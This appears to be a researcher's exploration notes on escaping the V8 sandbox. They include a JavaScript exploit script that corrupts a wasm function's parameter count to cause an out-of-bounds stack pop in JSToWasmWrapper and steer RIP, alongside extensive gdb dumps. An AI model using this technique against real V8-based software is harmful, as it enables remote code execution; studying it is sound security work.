


# Table of Contents

- [libv8.so mapping](#libv8so-mapping)
- [PopAndReturn](#popandreturn)
   - [Idea 1: overwriting `0x7fffffffd548` return address of JSWasmWrapperHelper](#idea-1-overwriting-0x7fffffffd548-return-address-of-jswasmwrapperhelper)
   - [Idea 2: Understanding Torque](#idea-2-understanding-torque)
   - [Idea 3: Overwrite `v8::internal::Histogram *__hidden this` pointer of `AddSample` function](#idea-3-overwrite-v8internalhistogram-__hidden-this-pointer-of-addsample-function)


# Exploreing

### libv8.so mapping

```js
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
     0x872c5a04000      0x872c5a06000 rwxp     2000      0 [anon_872c5a04]
     0xcfc50f3e000      0xcfc50f3f000 r--p     1000      0 [anon_cfc50f3e]
    0x170300000000     0x170300001000 rw-p     1000      0 [anon_170300000]
    0x170300001000     0x1703000c0000 ---p    bf000      0 [anon_170300001]
    0x1703000c0000     0x170300100000 rw-p    40000      0 [anon_1703000c0]
    0x170300100000     0x170340000000 ---p 3ff00000      0 [anon_170300100]
    0x284900000000     0x285100000000 ---p 800000000      0 [anon_284900000]
    0x285100000000     0x285100010000 r--p    10000      0 [anon_285100000]
    0x285100010000     0x285100020000 ---p    10000      0 [anon_285100010]
    0x285100020000     0x285100040000 r--p    20000      0 [anon_285100020]
    0x285100040000     0x285100149000 rw-p   109000      0 [anon_285100040]
    0x285100149000     0x285100180000 ---p    37000      0 [anon_285100149]
    0x285100180000     0x28510027e000 r--p    fe000      0 [anon_285100180]
    0x28510027e000     0x285100280000 ---p     2000      0 [anon_28510027e]
    0x285100280000     0x285100400000 rw-p   180000      0 [anon_285100280]
    0x285100400000     0x285200000000 ---p ffc00000      0 [anon_285100400]
    0x285200000000     0x285200100000 rw-p   100000      0 [anon_285200000]
    0x285200100000     0x285400000000 ---p 1fff00000      0 [anon_285200100]
    0x285400000000     0x285440000000 rw-p 40000000      0 [anon_285400000]
    0x285440000000     0x295900000000 ---p 104c0000000      0 [anon_285440000]
    0x555555554000     0x55555558e000 r--p    3a000      0 /home/vult/Desktop/v8/v8/out/debug/d8
    0x55555558e000     0x5555555db000 r-xp    4d000  39000 /home/vult/Desktop/v8/v8/out/debug/d8
    0x5555555db000     0x5555555dd000 r--p     2000  85000 /home/vult/Desktop/v8/v8/out/debug/d8
    0x5555555dd000     0x5555555df000 rw-p     2000  86000 /home/vult/Desktop/v8/v8/out/debug/d8
    0x5555555df000     0x5555556e4000 rw-p   105000      0 [heap]
//...
    0x7fff60000000     0x7fff7f480000 rwxp 1f480000      0 [anon_7fff60000]
    0x7fff7f480000     0x7fff7fff3000 r-xp   b73000 195d000 /home/vult/Desktop/v8/v8/out/debug/libv8.so
 //....
    0x7ffff2f50000     0x7ffff48ab000 r--p  195b000      0 /home/vult/Desktop/v8/v8/out/debug/libv8.so
    0x7ffff48ab000     0x7ffff7e60000 r-xp  35b5000 195a000 /home/vult/Desktop/v8/v8/out/debug/libv8.so
    0x7ffff7e60000     0x7ffff7ed4000 r--p    74000 4f0e000 /home/vult/Desktop/v8/v8/out/debug/libv8.so
    0x7ffff7ed4000     0x7ffff7ee1000 rw-p     d000 4f81000 /home/vult/Desktop/v8/v8/out/debug/libv8.so
    0x7ffff7ee1000     0x7ffff7ee2000 r--p     1000 4f8e000 /home/vult/Desktop/v8/v8/out/debug/libv8.so
    0x7ffff7ee2000     0x7ffff7f66000 rw-p    84000 4f8f000 /home/vult/Desktop/v8/v8/out/debug/libv8.so
    0x7ffff7f66000     0x7ffff7fcb000 rw-p    65000      0 [anon_7ffff7f66]
    0x7ffff7fcb000     0x7ffff7fce000 r--p     3000      0 [vvar]
    0x7ffff7fce000     0x7ffff7fcf000 r-xp     1000      0 [vdso]
    0x7ffff7fcf000     0x7ffff7fd0000 r--p     1000      0 /usr/lib/x86_64-linux-gnu/ld-2.31.so
    0x7ffff7fd0000     0x7ffff7ff3000 r-xp    23000   1000 /usr/lib/x86_64-linux-gnu/ld-2.31.so
    0x7ffff7ff3000     0x7ffff7ffb000 r--p     8000  24000 /usr/lib/x86_64-linux-gnu/ld-2.31.so
    0x7ffff7ffc000     0x7ffff7ffd000 r--p     1000  2c000 /usr/lib/x86_64-linux-gnu/ld-2.31.so
    0x7ffff7ffd000     0x7ffff7ffe000 rw-p     1000  2d000 /usr/lib/x86_64-linux-gnu/ld-2.31.so
    0x7ffff7ffe000     0x7ffff7fff000 rw-p     1000      0 [anon_7ffff7ffe]
    0x7ffffffde000     0x7ffffffff000 rw-p    21000      0 [stack]
0xffffffffff600000 0xffffffffff601000 --xp     1000      0 [vsyscall]

```


### PopAndReturn


```js
// v8/src/builtins/js-to-wasm.tq:699
macro JSToWasmWrapperHelper( // in default namespace
    context: NativeContext, _receiver: JSAny, target: JSFunction,
    arguments: Arguments, promise: constexpr Promise): never {
  const functionData =
      UnsafeCast<WasmExportedFunctionData>(target.shared_function_info.data);

  // The normal return sequence of Torque-generated JavaScript builtins does not
  // consider the case where the caller may push additional "undefined"
  // parameters on the stack, and therefore does not generate code to pop these
  // additional parameters. Here we calculate the actual number of parameters on
  // the stack. This number is the number of actual parameters provided by the
  // caller, which is `arguments.length`, or the number of declared arguments,
  // if not enough actual parameters were provided, i.e.
  // `SharedFunctionInfo::length`.
  let popCount = arguments.length;
  const declaredArgCount =
      Convert<intptr>(Convert<int32>(target.shared_function_info.length));
  if (declaredArgCount > popCount) {
    popCount = declaredArgCount;
  }
  // Also pop the receiver.
  PopAndReturn(popCount + 1, result);
}
/// js code tests
v8_write64(addrOf(instance.exports.func1)-0x30+0x18,0x4141n);
// ====================== gdb ======================================
RAX  0x0
*RBX  0x23dc00000069 ◂— 0x4
*RCX  0x4142
*RDX  0x23dc000202d5 ◂— 0x77ef608402000003
*RDI  0x23dc002dcdb5 ◂— 0xfe0040640000000d /* '\r' */
*RSI  0x9d
*R8   0x4141
*R9   0x32bb00000755 ◂— 0xfc00400200000009 /* '\t' */
*R10  0x7fff7f4c9309 ◂— mov r12, qword ptr [rbp - 0x20]
*R11  0x7fffffffd4f0 ◂— 0x0
*R12  0x7ffff20c1cc0 ◂— 0x0
 R13  0x5555555fd080 —▸ 0x7fff7f482400 ◂— push rbp
*R14  0x23dc00000000 ◂— 0x40940
*R15  0x23dc00000725 ◂— 0xe500000000000005
*RBP  0x7fffffffd660 —▸ 0x7fffffffd688 —▸ 0x7fffffffd700 —▸ 0x7fffffffd890 —▸ 0x7fffffffd920 ◂— ...
*RSP  0x80000001dff0
*RIP  0x7fff7fda5941 ◂— push r10
/// ======================

   0x7fff7fda5931:	mov    eax,DWORD PTR [rbp-0xe8]
   0x7fff7fda5937:	mov    rsp,rbp
   0x7fff7fda593a:	pop    rbp
   0x7fff7fda593b:	pop    r10
   0x7fff7fda593d:	lea    rsp,[rsp+rcx*8]
=> 0x7fff7fda5941:	push   r10
   0x7fff7fda5943:	ret  

// before lea
Thread 1 "d8" hit Breakpoint 1, 0x00007fff7fda593d in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────────────────────────────────
 RAX  0x0
*RBX  0x1c6400000069 ◂— 0x4
*RCX  0x101
*RDX  0x1c64000202d5 ◂— 0x77ef608402000003
*RDI  0x1c64002dc785 ◂— 0xfe0040640000000d /* '\r' */
*RSI  0x9d
*R8   0x100
*R9   0xf8b00000721 ◂— 0x6200400200000009 /* '\t' */
*R10  0x7fff7f4c9309 ◂— mov r12, qword ptr [rbp - 0x20]
*R11  0x7fffffffd3d0 ◂— 0x0
*R12  0x7ffff20c1cc0 ◂— 0x0
 R13  0x5555555fd080 —▸ 0x7fff7f482400 ◂— push rbp
*R14  0x1c6400000000 ◂— 0x40940
*R15  0x1c6400000725 ◂— 0xe500000000000005
*RBP  0x7fffffffd540 —▸ 0x7fffffffd568 —▸ 0x7fffffffd5e0 —▸ 0x7fffffffd770 —▸ 0x7fffffffd800 ◂— ...
*RSP  0x7fffffffd4c0 —▸ 0x1c64002dc5f5 ◂— 0x2500000ed9002dc7
*RIP  0x7fff7fda593d ◂— lea rsp, [rsp + rcx*8]
───────────────────────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────────────────────────────────
 ► 0x7fff7fda593d    lea    rsp, [rsp + rcx*8]
   0x7fff7fda5941    push   r10
   0x7fff7fda5943    ret  
//===============================================================
0x7fffffffd548 -> pop rcx
```
### Idea 1: overwriting `0x7fffffffd548` return address of JSWasmWrapperHelper
```js
v8_write64(addrOf(instance.exports.func1)-0x30+0x18,18n);
// 
# Fatal error in ../../src/objects/object-type.cc, line 82
# Type cast failed in CAST(LoadRegister(Register::function_closure())) at ../../src/interpreter/interpreter-assembler.cc:702
  Expected JSFunction but found Smi: 0x11 (17)

```

```js
 call    qword ptr [r13+54A0h] -> builtin_Aborts

0x7fff7f4c041c    0x7ffff48ee41c -> after function 

0x7fff7fea1a77    0x7ffff52cfa77 -> checkObjectType
0x7fff7f4c9309    0x7ffff48f7309 -> call    rcx 

```

CheckObject looks like:
```go
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────────────────────────────────
*RAX  0x7ffff6033710 (v8::internal::CheckObjectType(unsigned long, unsigned long, unsigned long)) ◂— push rbp
*RBX  0x7fff7fea1900 ◂— lea rbx, [rip - 7]
*RCX  0x7fffffffd540 —▸ 0x7fffffffd568 —▸ 0x7fffffffd5e0 —▸ 0x7fffffffd770 —▸ 0x7fffffffd800 ◂— ...
*RDX  0x225000249889 ◂— 0x661480e1aa000003
*RDI  0x225000299ff9 ◂— 0x250000072500281e
*RSI  0x92
*R8   0x4ae
*R9   0x225000299ff9 ◂— 0x250000072500281e
*R10  0x7fff7fea1a77 ◂— mov qword ptr [r13 + 0x70], 0
*R11  0x7fffffffd540 —▸ 0x7fffffffd568 —▸ 0x7fffffffd5e0 —▸ 0x7fffffffd770 —▸ 0x7fffffffd800 ◂— ...
*R12  0x47400000721 ◂— 0x6200400200000009 /* '\t' */
 R13  0x5555555fd080 —▸ 0x7fff7f482400 ◂— push rbp
 R14  0x225000000000 ◂— 0x40940
*R15  0x555555634b90 —▸ 0x7fff7fdf4580 ◂— lea rbx, [rip - 7]
*RBP  0x7fffffffd4f0 —▸ 0x7fffffffd540 —▸ 0x7fffffffd568 —▸ 0x7fffffffd5e0 —▸ 0x7fffffffd770 ◂— ...
*RSP  0x7fffffffd4b0 —▸ 0x7fffffffd4b8 ◂— 0x230
*RIP  0x7fff7fea1a75 ◂— call rax
───────────────────────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────────────────────────────────
 ► 0x7fff7fea1a75    call   rax                           <v8::internal::CheckObjectType(unsigned long, unsigned long, unsigned long)>
        rdi: 0x225000299ff9 ◂— 0x250000072500281e
        rsi: 0x92
        rdx: 0x225000249889 ◂— 0x661480e1aa000003
        rcx: 0x7fffffffd540 —▸ 0x7fffffffd568 —▸ 0x7fffffffd5e0 —▸ 0x7fffffffd770 —▸ 0x7fffffffd800 ◂— ...
// =====================================
 R9   0x49800000721 ◂— 0x6200400200000009 /* '\t' */
 R10  0x7fff7f4c9309 ◂— mov r12, qword ptr [rbp - 0x20]
 R11  0x7fffffffd3d0 ◂— 0x0
 R12  0x7ffff20c1cc0 ◂— 0x0
 R13  0x5555555fd080 —▸ 0x7fff7f482400 ◂— push rbp
 R14  0xdc00000000 ◂— 0x40940
 R15  0xdc00000725 ◂— 0xe500000000000005
 RBP  0x7fffffffd540 —▸ 0x7fffffffd568 —▸ 0x7fffffffd5e0 —▸ 0x7fffffffd770 —▸ 0x7fffffffd800 ◂— ...
*RSP  0x7fffffffd570 —▸ 0x7fff7f4c015f ◂— pop qword ptr [r13 + 0x118]
*RIP  0x7fff7fda5941 ◂— push r10
───────────────────────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────────────────────────────────
   0x7fff7fda593d    lea    rsp, [rsp + rcx*8]
 ► 0x7fff7fda5941    push   r10
   0x7fff7fda5943    ret  
```
CheckObject 
```js
*RAX  0x7ffff6033710 (v8::internal::CheckObjectType(unsigned long, unsigned long, unsigned long)) ◂— push rbp
```

how stack works:


Stacktrace:
```js

0x00007FFFF51D393D: Builtins_JSToWasmWrapper
0x00007FFFF48EE41C: Builtins_JSEntryTrampoline
0x00007FFFF48EE15F: Builtins_JSEntry
0x00007FFFF5847EEC:  v8::internal::`anonymous namespace`::Invoke


Builtins_CEntry_Return1_ArgvOnStack_NoBuiltinExit
Builtins_CallFunction_ReceiverIsNullOrUndefined
Generate_JSEntryTrampolineHelper(..., false)
```

**Fixing CheckObjectType**

Always returns true
```js
Address CheckObjectType(Address raw_value, Address raw_type,
                        Address raw_location) {

return Smi::FromInt(0).ptr();
                        }
```
Breakpoints and testing:
```js
0x00007fff7f4c9384    After Builtins_JSToWasmWrapper and checking bytecodes
//
0x7fff7fea1a77    mov    qword ptr [r13 + 0x70], 0
///
0x7fff7fda593d    lea    rsp, [rsp + rcx*8]
//
0x7fff7f4c9309    mov    r12, qword ptr [rbp - 0x20]
///
0x7fff7fea1afb    mov    r8, qword ptr [rbp - 0x18]
   0x7fff7fea1aff    mov    r9d, dword ptr [r8 + 7]
// ===============================================================
v8_write64(addrOf(instance.exports.func1)-0x30+0x18,18n);

Thread 1 "d8" received signal SIGSEGV, Segmentation fault.
0x00007fff7fea1aff in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────────────────────────────────
 RAX  0x0
 RBX  0x7fff7fea1900 ◂— lea rbx, [rip - 7]
 RCX  0x245
 RDX  0x23f2000205c5 ◂— 0x8efe51aaf2000003
 RDI  0x23f2beadbeef ◂— 0x0
 RSI  0x4a
 R8   0x23f2beadbeef ◂— 0x0
 R9   0x23f200300095 ◂— 0x4100000002000008
 R10  0xffffffff
 R11  0x7fffffffd540 ◂— 0x7fffffffd540
 R12  0x2d8100000729 ◂— 0x8a00400200000009 /* '\t' */
 R13  0x5555555fd080 —▸ 0x7fff7f482400 ◂— push rbp
 R14  0x23f200000000 ◂— 0x40940
 R15  0x555555634b90 —▸ 0x7fff7fdf4580 ◂— lea rbx, [rip - 7]
 RBP  0x7fffffffd540 ◂— 0x7fffffffd540
 RSP  0x7fffffffd508 ◂— 0x244
 RIP  0x7fff7fea1aff ◂— mov r9d, dword ptr [r8 + 7]
───────────────────────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────────────────────────────────
 ► 0x7fff7fea1aff    mov    r9d, dword ptr [r8 + 7]
   0x7fff7fea1b03    mov    r10d, 0xffffffff
   0x7fff7fea1b09    cmp    r9, r10
   0x7fff7fea1b0c    jbe    0x7fff7fea1b1b                <0x7fff7fea1b1b>

```

**Using release binary**
- It's looping

```js
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────────────────────────────────
 RAX  0x239700200095 ◂— 0x4100000002000008
 RBX  0x8
 RCX  0x8
 RDX  0x4d6
 RDI  0x23970019a071 ◂— 0x11001c338900000b /* '\x0b' */
 RSI  0x3af9000c48d9 ◂— 0xcd00405c0000001f
 R8   0x26b
 R9   0x26b
 R10  0xca
 R11  0x7fffffffd4a8 ◂— 0x4141 /* 'AA' */
 R12  0x3af900000605 ◂— 0x8a00400200000009 /* '\t' */
 R13  0x555556f4e080 —▸ 0x555556a8ff00 (Builtins_AdaptorWithBuiltinExitFrame) ◂— mov ecx, dword ptr [rdi + 0xf]
 R14  0x239700000000 ◂— 0x40940
 R15  0x555556f85570 —▸ 0x555556c1e180 (Builtins_WideHandler) ◂— add r9, 1
*RBP  0x22
*RSP  0x7fffffffd628 —▸ 0x7fffffffd620 ◂— 0x22 /* '"' */
*RIP  0x555556a9c4e4 (Builtins_InterpreterEntryTrampoline+420) ◂— pop rcx
───────────────────────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────────────────────────────────
   0x555556a9c4d0 <Builtins_InterpreterEntryTrampoline+400>    mov    rcx, qword ptr [rbp - 0x18]
   0x555556a9c4d4 <Builtins_InterpreterEntryTrampoline+404>    lea    rcx, [rcx*8]
   0x555556a9c4dc <Builtins_InterpreterEntryTrampoline+412>    cmp    rbx, rcx
   0x555556a9c4df <Builtins_InterpreterEntryTrampoline+415>    cmovl  rbx, rcx
   0x555556a9c4e3 <Builtins_InterpreterEntryTrampoline+419>    leave  
 ► 0x555556a9c4e4 <Builtins_InterpreterEntryTrampoline+420>    pop    rcx
   0x555556a9c4e5 <Builtins_InterpreterEntryTrampoline+421>    add    rsp, rbx
   0x555556a9c4e8 <Builtins_InterpreterEntryTrampoline+424>    push   rcx
   0x555556a9c4e9 <Builtins_InterpreterEntryTrampoline+425>    ret    
```
Stack looks like:
```go
pwndbg> tele 0x7fffffffd598
00:0000│ rsp 0x7fffffffd598 —▸ 0xf76001dcbed ◂— 0x2500000ef1001dcd
01:0008│     0x7fffffffd5a0 —▸ 0xf7600199c25 ◂— 0x4100000002000008
02:0010│     0x7fffffffd5a8 —▸ 0xf76001d7fb5 ◂— 0x2500000725001a89
03:0018│     0x7fffffffd5b0 —▸ 0xf76001dc0ed ◂— 0x2500000725001ad8
04:0020│     0x7fffffffd5b8 ◂— 0x20 /* ' ' */
05:0028│     0x7fffffffd5c0 —▸ 0xf7600199b35 ◂— 0x7100000002000008
06:0030│     0x7fffffffd5c8 —▸ 0xf76001840b9 ◂— 0x250000072500181f
07:0038│     0x7fffffffd5d0 —▸ 0xf7600199c25 ◂— 0x4100000002000008
pwndbg> 
08:0040│  0x7fffffffd5d8 —▸ 0xf76001dcbed ◂— 0x2500000ef1001dcd
09:0048│  0x7fffffffd5e0 —▸ 0xf76001dcda1 ◂— 0x2500000725001923
0a:0050│  0x7fffffffd5e8 —▸ 0xf7600000069 ◂— 0x4
0b:0058│  0x7fffffffd5f0 —▸ 0xf7600000069 ◂— 0x4
0c:0060│  0x7fffffffd5f8 ◂— 0x78a
0d:0068│  0x7fffffffd600 —▸ 0x215700000671 ◂— 0x4a00400200000009 /* '\t' */
0e:0070│  0x7fffffffd608 ◂— 0x1
0f:0078│  0x7fffffffd610 —▸ 0xf7600199ce1 ◂— 0x250000072500181e
pwndbg> 
10:0080│     0x7fffffffd618 —▸ 0xf7600199d31 ◂— 0x50000001c001902
11:0088│ rbp 0x7fffffffd620 —▸ 0x7fffffffd648 —▸ 0x7fffffffd6c0 —▸ 0x7fffffffd820 —▸ 0x7fffffffd890 ◂— ...
12:0090│     0x7fffffffd628 —▸ 0x555556af071c (Builtins_JSEntryTrampoline+92) ◂— mov rsp, rbp
13:0098│     0x7fffffffd630 —▸ 0xf76001816c9 ◂— 0x250005f2c4001971
14:00a0│     0x7fffffffd638 —▸ 0xf7600199ce1 ◂— 0x250000072500181e
15:00a8│     0x7fffffffd640 ◂— 0x2c /* ',' */
16:00b0│     0x7fffffffd648 —▸ 0x7fffffffd6c0 —▸ 0x7fffffffd820 —▸ 0x7fffffffd890 —▸ 0x7fffffffd990 ◂— ...
17:00b8│     0x7fffffffd650 —▸ 0x555556af045f (Builtins_JSEntry+159) ◂— pop qword ptr [r13 + 0x118]
pwndbg> 
18:00c0│  0x7fffffffd658 ◂— 0x0
19:00c8│  0x7fffffffd660 ◂— 0x0
1a:00d0│  0x7fffffffd668 ◂— 0x2
1b:00d8│  0x7fffffffd670 ◂— 0x0
... ↓     2 skipped
1e:00f0│  0x7fffffffd688 —▸ 0x555556fa6000 —▸ 0xf7600000000 ◂— 0x40940
1f:00f8│  0x7fffffffd690 —▸ 0x555556af03c0 (Builtins_JSEntry) ◂— push rbp

```


### Idea 2: Understanding Torque

- Torque works:


`v8/src/builtins/js-to-wasm.tq` -> `v8/out/debug/gen/torque-generated/src/builtins/js-to-wasm-tq-csa.cc`

Stacktrace:
```js
// v8/src/builtins/builtins-interpreter-gen.cc
void Builtins::Generate_InterpreterEntryTrampoline(MacroAssembler* masm) {
  Generate_InterpreterEntryTrampoline(masm,
                                      InterpreterEntryTrampolineMode::kDefault);
}

// v8/src/builtins/x64/builtins-x64.cc
void Builtins::Generate_InterpreterEntryTrampoline(...)
```

### Idea 3: Overwrite `v8::internal::Histogram *__hidden this` pointer of `AddSample` function

```js
.text:0000555555D90900 ; __int64 __fastcall v8::internal::Histogram::AddSample(v8::internal::Histogram *__hidden this, int)
.text:0000555555D90900 _ZN2v88internal9Histogram9AddSampleEi proc near
.text:0000555555D90900                                         ; CODE XREF: v8::Script::Run(v8::Local<v8::Context>,v8::Local<v8::Data>)+3DC↑p
.text:0000555555D90900                                         ; v8::Module::Evaluate(v8::Local<v8::Context>)+372↑p ...
.text:0000555555D90900 ; __unwind {
.text:0000555555D90900                 push    rbp
.text:0000555555D90901                 mov     rbp, rsp
.text:0000555555D90904                 mov     rax, [rdi+18h]
.text:0000555555D90908                 test    rax, rax
.text:0000555555D9090B                 jz      short loc_555555D90924

//====================================================================
why rdi does not match when we change 0x41414141n to real pointer???
// js 
v8_write64(addrOf(instance.exports.func1)-0x30+0x18,0x13n + 0xcn);
console.log((heap_addr + 0x200000n).toString(16));
// v8_write64(0x200095n, 0x4141414142424242n);
v8_write64(0x200095n, heap_addr + 0x200000n);
///=================================================
Thread 1 "d8" hit Breakpoint 2, 0x0000555555d90901 in v8::internal::Histogram::AddSample(int) ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────────────────────────────────
*RAX  0x13ee1
 RBX  0x555556f4e000 —▸ 0x2dc800000000 ◂— 0x40940
 RCX  0x0
*RDX  0x618
*RDI  0x2000008
*RSI  0x13ee1
*R8   0x30c
*R9   0x30c
*R10  0x555556f4e1a8 ◂— 0x0
*R11  0x7fffffffd4a8 ◂— 0x4141 /* 'AA' */
*R12  0x2dc800048a75 ◂— 0xe000000004000bd2
 R13  0x555556f62018 ◂— 0x13ee1
*R14  0x555556fbcaf0 —▸ 0x2dc8002000dd ◂— 0x4100000002000008
 R15  0x555556ebc000 (v8::internal::v8_flags) ◂— 0x100000000000100

// breakpoints
pwndbg> bl
Num     Type           Disp Enb Address            What
2       breakpoint     keep y   0x0000555555d90901 <v8::internal::Histogram::AddSample(int)+1>
	stop only if *(long *)($rsp+8)==0x555555a596e1
	breakpoint already hit 2 times

```

Control rip :
I'm running with `release` binary, somehow it can trigger overwriting argument pointer in `AddSample` function...

```js
// ./out/release/d8
// r --expose-gc --allow-natives-syntax --sandbox-testing    --experimental-wasm-memory64 ../../../tests/t8.js

d8.file.execute('/home/vult/Desktop/v8/v8/test/mjsunit/wasm/wasm-module-builder.js');
let sandboxMemory = new DataView(new Sandbox.MemoryView(0, 0x100000000));

function addrOf(obj) {
    return Sandbox.getAddressOf(obj);
  }
  
  function v8_read64(addr) {
    return sandboxMemory.getBigUint64(Number(addr), true);
  }
  
  function v8_write64(addr, val) {
    return sandboxMemory.setBigInt64(Number(addr), val, true);
  }

console.log("[*] Leak sandbox base address");
// ================= reading heap_base =============================
let ofs1 = 0x48;
let heap_addr = v8_read64(ofs1) - 0x40000n;
let low_ofs_started_page = heap_addr & 0xffffffffn;
let high_ofs_started_page = heap_addr & 0xffffffff00000000n;
console.log("heap_addr: 0x" + heap_addr.toString(16));

// ================================================================

const builder = new WasmModuleBuilder();
builder.exportMemoryAs("mem0", 0);
const GB = 1024 * 1024 * 1024;
let $mem0 = builder.addMemory64(1 * GB / kPageSize);

let $box = builder.addStruct([makeField(kWasmFuncRef, true)]);

let $sig_i_l = builder.addType(kSig_i_l); //let kSig_i_l = makeSig([kWasmI64], [kWasmI32]);
// let $Sig_i_iii = builder.addType(kSig_i_iii);

builder.addFunction("func0", kSig_v_l).exportFunc().addBody([ // func 0 receive a int32 and write to that address??
//let kSig_v_i = makeSig([kWasmI32], []);
  kExprLocalGet, 0,
  ...wasmI32Const(0x41414141),
  kExprI32StoreMem, 0, 0, // i32.store offset = -1
]);
builder.addFunction("func1", builder.addType(kSig_l_l)).exportFunc().addBody([ // function 1 convert from int32 to int64
  kExprLocalGet, 0,
//   kExprI32ConvertI64,
  kExprI64Const, 0x81, 0x80, 0x80, 0x80, 0x10,
  kExprI64Mul,
]);


let instance = builder.instantiate();

instance.exports.func0(0n);

instance.exports.func1(0n);
instance.exports.func0(0n);

%DebugPrint(instance.exports.func1);

// ===============================
// length has only 2 bytes
// 0xbn
// 174n 
// rsp = rsp + (0xb+1)*8
// v8_write64(0x43001n, 0x0n)
v8_write64(addrOf(instance.exports.func1)-0x30+0x18,0x13n + 0xcn);
console.log((heap_addr + 0x200000n).toString(16));
v8_write64(0x200000n + 0x20n, heap_addr + 0x250000n);
v8_write64(0x250000n + 0x0EB30n, 0x4141414142424242n);
// v8_write64(0x200095n, 0x4141414142424242n);
v8_write64(0x2000d5n, heap_addr + 0x200000n);


// %SystemBreak();

// trigger out-of-bounds stack
// console.log("[*] After overwriting length");
instance.exports.func1(0x4141n);

/// =========================
heap_addr: 0x7b500000000
target_page: 0x5b48cf65000

pwndbg> tele 0x7b5002001b9-0x60
00:0000│  0x7b500200159 —▸ 0x5b48cf65000 ◂— 0x0
01:0008│  0x7b500200161 —▸ 0x7b500200000 ◂— 0x20012

```

**Should understand how the program calls AddSample function? and why it changes rbp?**

```js
// stack PopReturn oob 
// ============= asm ===============
   0x555556c60928 <Builtins_JSToWasmWrapper+3176>    lea    rsp, [rsp + rcx*8]
 ► 0x555556c6092c <Builtins_JSToWasmWrapper+3180>    push   r10                           <Builtins_InterpreterEntryTrampoline+295>
   0x555556c6092e <Builtins_JSToWasmWrapper+3182>    ret   

// ===============================================
// asm 
.text:0000555556AF2C95 loc_555556AF2C95:                       ; CODE XREF: Builtins_InterpreterEntryTrampoline:loc_555556AF2D07↓j
.text:0000555556AF2C95                                         ; Builtins_InterpreterEntryTrampoline+1D3↓j
.text:0000555556AF2C95                 mov     r15, [r13+4C78h]
.text:0000555556AF2C9C                 movzx   r10d, byte ptr [r12+r9]
.text:0000555556AF2CA1                 mov     rcx, [r15+r10*8]
.text:0000555556AF2CA5                 call    rcx             ; Builtins_JSToWasmWrapper

/// =============================================
Builtins_JSEntryTrampoline
static void Generate_JSEntryTrampolineHelper(MacroAssembler* masm,
                                             bool is_construct) {
// ...
    // Push the receiver.
    __ Push(r9);

    // Invoke the builtin code.
    Builtin builtin = is_construct ? Builtin::kConstruct : Builtins::Call();
    __ CallBuiltin(builtin);
// ...
                                             }
// ============= asm ================
.text:0000555556AF0717                 call    Builtins_Call_ReceiverIsAny
.text:0000555556AF071C                 mov     rsp, rbp
.text:0000555556AF071F                 pop     rbp
.text:0000555556AF0720                 retn
/// After that it returns to JSEntry function

void Builtins::Generate_JSEntry(MacroAssembler* masm) {
  Generate_JSEntryVariant(masm, StackFrame::ENTRY, Builtin::kJSEntryTrampoline);
}
// Called with the native C calling convention. The corresponding function
// signature is either:
